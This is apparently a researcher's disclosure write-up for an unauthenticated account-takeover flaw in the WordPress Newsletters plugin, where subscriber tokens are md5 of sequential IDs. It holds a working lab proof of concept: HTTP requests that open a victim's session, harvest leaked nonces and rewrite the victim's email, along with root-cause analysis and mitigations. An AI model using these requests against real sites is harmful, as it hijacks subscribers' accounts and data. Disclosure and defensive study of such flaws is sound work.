



# Newsletters - Unauthenticated Subscriber Management Account Takeover

# Overview

- Advisory: https://patchstack.com/database/wordpress/plugin/newsletters-lite/vulnerability/wordpress-newsletters-plugin-4-13-broken-access-control-vulnerability
- CVE-2026-54840
- Affected plugin: Newsletters (`newsletters-lite`)
- Affected versions: `<= 4.13`



# Summary

The issue is in the subscriber management session authentication flow of the Newsletters plugin.

The plugin generates the authentication token for the subscriber management page from a **predictable** expression: `md5(subscriber_id)`. This value is stored in both the subscriber's `authkey` and `cookieauth` fields.

The vulnerable part is not that the management page is public. A "Manage Subscriptions" page that lets a subscriber manage their own subscription is normal. The problem is that the bearer token used to prove "I am this subscriber" is derived directly from a **non-secret, sequential** value: the subscriber ID.

Because the subscriber ID is an auto-incrementing integer (`1`, `2`, `3`, ...) and the token is only `md5(id)`, an attacker does not need a valid confirmation email. They only need:

```text
token = md5(subscriber_id)
```

This token is then sent through the `subscriberauth` parameter on the public management page to hijack any subscriber's session - reading and modifying the victim's email, name, and subscription status without logging into WordPress.

# How I Found It

I started from the `[newsletters_management]` shortcode because it is the public page that a user without a WordPress login can still reach to self-manage their subscription.

The question to check was: how does this public page distinguish "subscriber A" from "subscriber B"?

Following the `wpMailPlugin::sc_management()` callback, I saw that it takes the `subscriberauth` parameter from the URL and treats it exactly like a subscriber cookie. After that, `wpmlAuthnewsHelper::logged_in()` loads the subscriber based on the `cookieauth` field.

The next question was how `cookieauth` is generated. Tracing back to `gen_auth()`, I found that when a subscriber has no `authkey` yet, the plugin creates the token as `md5($subscriber_id)` and stores it in both `authkey` and `cookieauth`.

At that point it was clear: the token is not secret at all. I computed `md5("1")`, attached it to `?subscriberauth=`, and immediately reached the management page of subscriber ID `1` without any login session.

# Root Cause

The root cause is that the plugin uses a **predictable authentication token** (`md5(subscriber_id)`) instead of an unpredictable random secret, and then trusts that token when it arrives in the `subscriberauth` parameter of an unauthenticated request.

## 1. Token Derived From a Predictable Value

When a subscriber opts in, the plugin calls `gen_auth()` with the subscriber's own ID:

- `models/subscriber.php:888`: the subscriber opt-in flow calls `gen_auth($subscriber->id)`.

Inside `gen_auth()`, when the subscriber has no `authkey` yet, the token is derived directly from `md5($subscriber_id)`:

- `wp-mailinglist-plugin.php:9135`: `gen_auth()` derives the token from `md5($subscriber_id)` when no `authkey` exists.

This predictable token is then stored as the subscriber's long-lived identity:

- `wp-mailinglist-plugin.php:9155-9159`: the token is stored as `authkey`, `cookieauth`, and the auth is marked active.

Because `md5(subscriber_id)` is fully computable offline, anyone who knows (or guesses) the subscriber ID can compute the token:

```text
md5("1") = c4ca4238a0b923820dcc509a6f75849b
md5("2") = c81e728d9d4c2f636f067f89cc14862c
md5("3") = eccbc87e4b5ce2fe28308fd9f2a7baf3
...
```

## 2. Public Management Page Accepts the Token From the URL

The management page takes `subscriberauth` from the query string and treats it as the subscriber cookie:

- `wp-mailinglist-plugin.php:6402-6406`: the public management page reads `subscriberauth` from the URL and assigns it to `$_COOKIE['subscriberauth']`.

This promotes an attacker-controlled value in the URL into a "session cookie" without any other authentication step.

## 3. Verification Only Matches the Token, Not the Owner

The session check accepts **any** subscriber whose `cookieauth` matches the received token:

- `helpers/auth.php:23`: `logged_in()` accepts any subscriber row whose `cookieauth` equals the cookie/query token.

Because the token is exactly `md5(subscriber_id)`, the attacker only needs to supply the correct token for the victim's ID for `logged_in()` to return that subscriber. There is no check that the requester actually owns the email address that received the token by mail.

# Subscriber Session & Profile Takeover

After `logged_in()` accepts the token, the entire management page and its AJAX actions operate on the exact subscriber the attacker chose.

- Entry point: the public subscriber management page with `?subscriberauth=<token>`.
- Condition: a subscriber exists with `cookieauth`/`authkey` generated by `gen_auth()`.
- Trigger: compute `md5(subscriber_id)` and send it as `subscriberauth`.
- Consequence: unauthenticated read/write to the management page and AJAX actions of another subscriber.

Processing flow:

- User Input: `GET /manage-subscriptions/?subscriberauth=<md5(id)>`
- Hook/Shortcode: `[newsletters_management]`
- Callback: `wpMailPlugin::sc_management()`
- Processing: the request value is copied into `$_COOKIE['subscriberauth']`, then `wpmlAuthnewsHelper::logged_in()` loads the subscriber by `cookieauth`.
- Sink: the management page views and AJAX actions expose and modify the selected subscriber's profile/subscription.

# Preconditions

The issue requires these conditions:

- The Newsletters plugin is active (tested on `4.13`).
- The public management page (containing the `[newsletters_management]` shortcode) has been created.
- At least one subscriber exists with `cookieauth`/`authkey` generated by `gen_auth()`.
- The attacker knows or can guess/enumerate a subscriber ID (sequential IDs make this easy).

# Exploit Flow

```text
Unauthenticated request
        |
        v
GET /manage-subscriptions/?subscriberauth=md5(id)
        |
        v
wpMailPlugin::sc_management()
        |
        v
subscriberauth (URL) -> $_COOKIE['subscriberauth']
        |
        v
wpmlAuthnewsHelper::logged_in()  (matches cookieauth)
        |
        v
victim subscriber management session is opened
        |
        v
managementsavefields nonce is leaked
        |
        v
modify victim email / profile / subscription
```

# PoC

Lab environment:

```text
Target: http://192.168.1.14:8091/
WordPress: 6.9.4
PHP: 8.3.30
Newsletters: 4.13
Public page: /manage-subscriptions/  ([newsletters_management])
Subscriber ID 1: victim-newsletters@example.test
```

The victim subscriber used in the lab is subscriber ID `1`, with email `victim-newsletters@example.test`. Its `cookieauth`/`authkey` was generated by `gen_auth()` and is therefore equal to `md5("1") = c4ca4238a0b923820dcc509a6f75849b`.

Because the token is just `md5(subscriber_id)`, the attacker computes it offline (`echo -n "1" | md5sum`) and sends it as `subscriberauth` to the public management page. No WordPress login and no confirmation email are involved:

```http
GET /manage-subscriptions/?subscriberauth=c4ca4238a0b923820dcc509a6f75849b HTTP/1.1
Host: 192.168.1.14:8091
User-Agent: Burp Suite
Accept: */*
Connection: close
```

The server opens the victim's management session and returns their profile, confirming the unauthenticated takeover:

```http
HTTP/1.1 200 OK
Date: Sun, 21 Jun 2026 16:07:07 GMT
Server: Apache/2.4.66 (Debian)
X-Powered-By: PHP/8.3.30
Set-Cookie: PHPSESSID=2bf3de24590bb92184b3d6b2c3ea42c7; path=/
Content-Type: text/html; charset=UTF-8

Your email address is: <strong>victim-newsletters@example.test</strong>
...
<input type="hidden" name="subscriber_id" value="1" />
...
<input placeholder="email@example.com" class="form-control wpml wpmltext" id="wpml-manageemail"  type="text" name="email" value="victim-newsletters@example.test" />
url: newsletters_ajaxurl + "action=managementsavefields&security=303aaec8a4"
```



The same response also leaks, inside its inline `<script>` blocks, the full set of AJAX nonces for managing this subscriber. Because the session was opened with a guessable token, these valid nonces are handed straight to the attacker:

```text
managementsavefields: 303aaec8a4
newsletters_managementactivate: d14231169f
managementsubscribe: be9b4c9fae
managementcurrentsubscriptions: cb974d8f9d
managementnewsubscriptions: 1db9ac0a27
managementcustomfields: e0470976d9
```

Using the leaked `managementsavefields` nonce, the attacker submits an unauthenticated profile update for subscriber `1`, changing the email and name to attacker-controlled values. The request carries no login cookie - only the leaked nonce and the target `subscriber_id`:

```http
POST /wp-admin/admin-ajax.php?action=managementsavefields&security=303aaec8a4 HTTP/1.1
Host: 192.168.1.14:8091
User-Agent: Burp Suite
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Connection: close

subscriber_id=1&email=attacker-owned%40example.test&consent%5B%5D=1&format=html&firstname=Owned&lastname=ByAttacker
```

The handler accepts the change and echoes back the updated profile:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

<h3>Profile</h3>
<p>Manage your subscriber profile data in the fields below.</p>

<div class="alert alert-success">
    <i class="fa fa-check"></i> 1
</div>

<form action="" method="post" onsubmit="wpmlmanagement_savefields(this);" id="subscribersavefieldsform" enctype="multipart/form-data">
    <input type="hidden" name="subscriber_id" value="1" />
        ...
    <input placeholder="email@example.com" class="form-control wpml wpmltext" id="wpml-manageemail"  type="text" name="email" value="attacker-owned@example.test" />
        ...
    <input placeholder="John" class="form-control wpml wpmltext" id="wpml-managefirstname" tabindex="93" type="text" name="firstname" value="Owned" />
        ...
    <input placeholder="Doe" class="form-control wpml wpmltext" id="wpml-managelastname" tabindex="94" type="text" name="lastname" value="ByAttacker" />

</form>
```



The subscriber record in the database is now owned by the attacker, while the predictable `cookieauth`/`authkey` remain unchanged:

```json
{
  "id": "1",
  "email": "attacker-owned@example.test",
  "firstname": "Owned",
  "lastname": "ByAttacker",
  "cookieauth": "c4ca4238a0b923820dcc509a6f75849b",
  "authkey": "c4ca4238a0b923820dcc509a6f75849b"
}
```

In summary, an unauthenticated attacker reached another subscriber's management area by guessing/enumerating the subscriber ID, read the victim's email and subscription status, and changed the victim's email and profile through the leaked AJAX nonces - and the same nonces also allow subscribing/unsubscribing the victim from lists and using the account-deletion workflow where it is enabled.

# Impact

This is a full **takeover** of the plugin-level subscriber management account without authentication. Because subscriber IDs are sequential and the bearer token is deterministic, an attacker can enumerate subscribers and compromise their profile and subscription data **without ever receiving a valid confirmation email**.

Main impact:

1. Read the email and subscription status of any subscriber.
2. Change the victim's email/profile (can be used to take over or redirect communication).
3. Subscribe/unsubscribe the victim from lists.
4. Use the account-deletion workflow where enabled.

# Limitations

- The impact is limited to the plugin's subscriber management account, **not** WordPress administrator privileges.
- The issue does not provide RCE.
- A subscriber with a generated `cookieauth`/`authkey` must exist, and the attacker needs to know/guess the subscriber ID (usually easy since IDs are sequential).

# Mitigation

At the design level, the plugin should replace the predictable token with an unpredictable random secret:

- Generate `authkey`/`cookieauth` from a strong random source (for example `wp_generate_password()` / `random_bytes()`), not `md5(subscriber_id)`.
- Never derive an authentication token from a sequential, public value like an ID.
- In `logged_in()`, beyond matching the token, add further constraints (token expiry, single-use token for sensitive operations).
- Do not expose sensitive AJAX nonces on a session opened only by a guessable token.
- Consider requiring email confirmation (double opt-in) for important email/profile changes.

# References

- Newsletters plugin: https://wordpress.org/plugins/newsletters-lite/
- WordPress plugin source tag 4.13: https://plugins.svn.wordpress.org/newsletters-lite/tags/4.13/
